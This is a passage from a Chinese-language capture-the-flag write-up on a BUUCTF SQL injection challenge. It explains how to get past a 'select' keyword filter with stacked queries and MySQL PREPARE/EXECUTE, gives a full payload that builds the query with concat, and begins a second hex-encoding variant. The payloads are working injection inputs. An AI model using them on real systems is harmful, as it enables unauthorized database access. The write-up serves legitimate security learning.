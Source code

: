 通过预编译的方式拼接 select 关键字：`1';PREPARE hacker from concat('s','elect', ' * from ` 1919810931114514 ` ');EXECUTE hacker;#`。预编译相当于定一个语句相同，参数不同的 Mysql 模板，我们可以通过预编译的方式，绕过特定的字符过滤。之前有学习过通过预编译防御 SQL 注入攻击，但这是第一次用预编译来绕过防护。

预编译的格式如下：

```
PREPARE 名称 FROM Sql语句 ? ;
SET @x=xx;
EXECUTE 名称 USING @x;
```

例如：正常查询使用 `SElECT * FROM t_user WHERE USER_ID = 1`，预编译则可以如下操作

```sql
方法一：
PREPARE jia FROM 'SElECT * FROM t_user WHERE USER_ID = 1';
EXECUTE jia;

方法二：
PREPARE jia FROM 'SELECT * FROM t_user WHERE USER_ID = ?';
SET @ID = 1;
EXECUTE jia USING @ID;

方法三：
SET @SQL='SElECT * FROM t_user WHERE USER_ID = 1';
PREPARE jia FROM @SQL;
EXECUTE jia;
```

本题因为可以堆叠注入且过滤了 select 关键字，所以先将关键字拆开通过 concat 方法拼接并预编译，来绕过检测，然后再执行预编译好的查询语句获取 flag。

![](/img/BUUCTF_SQL刷题/D3TEbhvlPopwvIxQkQ7cVK9gnzN.png)

## 方法二：预编译 + 十六进制编码绕过

可以直接将 `select * from ` 1919810931114514`` 语句进行 16 进制编码，即：`73656c656374202a2066726f6d20603139313938313039333131313435313460`，替换 payload 预编译：

